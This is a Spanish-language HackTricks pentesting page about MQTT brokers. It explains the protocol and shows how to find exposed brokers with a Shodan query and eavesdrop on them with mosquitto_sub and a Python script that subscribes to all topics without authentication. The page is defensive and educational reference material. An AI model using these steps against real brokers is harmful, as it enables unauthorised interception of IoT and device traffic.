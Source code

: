 # 1883 - Pentesting MQTT (Mosquitto)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

**MQ Telemetry Transport (MQTT)** es conocido como un **protocolo de mensajería de publicación/suscripción** que se destaca por su extrema simplicidad y ligereza. Este protocolo está específicamente diseñado para entornos donde los dispositivos tienen capacidades limitadas y operan sobre redes caracterizadas por un bajo ancho de banda, alta latencia o conexiones poco fiables. Los objetivos principales de MQTT incluyen minimizar el uso del ancho de banda de la red y reducir la demanda sobre los recursos del dispositivo. Además, busca mantener una comunicación fiable y proporcionar un cierto nivel de garantía de entrega. Estos objetivos hacen que MQTT sea excepcionalmente adecuado para el creciente campo de la **comunicación máquina a máquina (M2M)** y el **Internet de las Cosas (IoT)**, donde es esencial conectar de manera eficiente una multitud de dispositivos. Además, MQTT es muy beneficioso para aplicaciones móviles, donde conservar el ancho de banda y la vida de la batería es crucial.

**Puerto por defecto:** 1883
```
PORT     STATE SERVICE                 REASON
1883/tcp open  mosquitto version 1.4.8 syn-ack
```
## Inspeccionando el tráfico

Cuando un paquete **CONNECT** es recibido por los brokers MQTT, se envía de vuelta un paquete **CONNACK**. Este paquete contiene un código de retorno que es crucial para entender el estado de la conexión. Un código de retorno de **0x00** significa que las credenciales han sido aceptadas, lo que indica una conexión exitosa. Por otro lado, un código de retorno de **0x05** señala que las credenciales son inválidas, impidiendo así la conexión.

Por ejemplo, si el broker rechaza la conexión debido a credenciales inválidas, el escenario se vería algo así:
```
{
"returnCode": "0x05",
"description": "Connection Refused, not authorized"
}
```
![](<../.gitbook/assets/image (976).png>)

### [**Fuerza Bruta MQTT**](../generic-hacking/brute-force.md#mqtt)

## Pentesting MQTT

**La autenticación es totalmente opcional** y incluso si se está realizando autenticación, **la encriptación no se utiliza por defecto** (las credenciales se envían en texto claro). Los ataques MITM aún se pueden ejecutar para robar contraseñas.

Para conectarte a un servicio MQTT puedes usar: [https://github.com/bapowell/python-mqtt-client-shell](https://github.com/bapowell/python-mqtt-client-shell) y suscribirte a todos los temas haciendo:
```
> connect (NOTICE that you need to indicate before this the params of the connection, by default 127.0.0.1:1883)
> subscribe "#" 1
> subscribe "$SYS/#"
```
También puedes usar [**https://github.com/akamai-threat-research/mqtt-pwn**](https://github.com/akamai-threat-research/mqtt-pwn)

También puedes usar:
```bash
apt-get install mosquitto mosquitto-clients
mosquitto_sub -t 'test/topic' -v #Subscribe to 'test/topic'
mosquitto_sub -h <host-ip> -t "#" -v #Subscribe to ALL topics.
```
O puedes **ejecutar este código para intentar conectarte a un servicio MQTT sin autenticación, suscribirte a todos los temas y escucharlos**:
```python
#This is a modified version of https://github.com/Warflop/IOT-MQTT-Exploit/blob/master/mqtt.py
import paho.mqtt.client as mqtt
import time
import os

HOST = "127.0.0.1"
PORT = 1883

def on_connect(client, userdata, flags, rc):
client.subscribe('#', qos=1)
client.subscribe('$SYS/#')

def on_message(client, userdata, message):
print('Topic: %s | QOS: %s  | Message: %s' % (message.topic, message.qos, message.payload))

def main():
client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message
client.connect(HOST, PORT)
client.loop_start()
#time.sleep(10)
#client.loop_stop()

if __name__ == "__main__":
main()
```
## Más información

de aquí: [https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b](https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b)

### El patrón Publicar/Suscribirse <a href="#b667" id="b667"></a>

El modelo de publicar/suscribirse se compone de:

* **Publicador**: publica un mensaje en uno (o varios) tema(s) en el broker.
* **Suscriptor**: se suscribe a uno (o varios) tema(s) en el broker y recibe todos los mensajes enviados por el publicador.
* **Broker**: enruta todos los mensajes de los publicadores a los suscriptores.
* **Tema**: consiste en uno o más niveles que están separados por una barra diagonal (por ejemplo, /smartshouse/livingroom/temperature).

### Formato de Paquete <a href="#f15a" id="f15a"></a>

Cada paquete MQTT contiene un encabezado fijo (Figura 02).Figura 02: Encabezado Fijo

![https://miro.medium.com/max/838/1\*k6RkAHEk0576geQGUcKSTA.png](https://miro.medium.com/max/838/1*k6RkAHEk0576geQGUcKSTA.png)

### Tipos de Paquete

* CONNECT (1): Iniciado por el cliente para solicitar una conexión al servidor.
* CONNACK (2): El reconocimiento del servidor de una conexión exitosa.
* PUBLISH (3): Utilizado para enviar un mensaje del cliente al servidor o viceversa.
* PUBACK (4): Reconocimiento de un paquete PUBLISH.
* PUBREC (5): Parte de un protocolo de entrega de mensajes que asegura que el mensaje sea recibido.
* PUBREL (6): Aseguramiento adicional en la entrega de mensajes, indicando una liberación de mensaje.
* PUBCOMP (7): Parte final del protocolo de entrega de mensajes, indicando finalización.
* SUBSCRIBE (8): Solicitud de un cliente para escuchar mensajes de un tema.
* SUBACK (9): El reconocimiento del servidor de una solicitud de SUBSCRIBE.
* UNSUBSCRIBE (10): Solicitud de un cliente para dejar de recibir mensajes de un tema.
* UNSUBACK (11): La respuesta del servidor a una solicitud de UNSUBSCRIBE.
* PINGREQ (12): Un mensaje de latido enviado por el cliente.
* PINGRESP (13): Respuesta del servidor al mensaje de latido.
* DISCONNECT (14): Iniciado por el cliente para terminar la conexión.
* Dos valores, 0 y 15, están marcados como reservados y su uso está prohibido.

## Shodan

* `port:1883 MQTT`

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

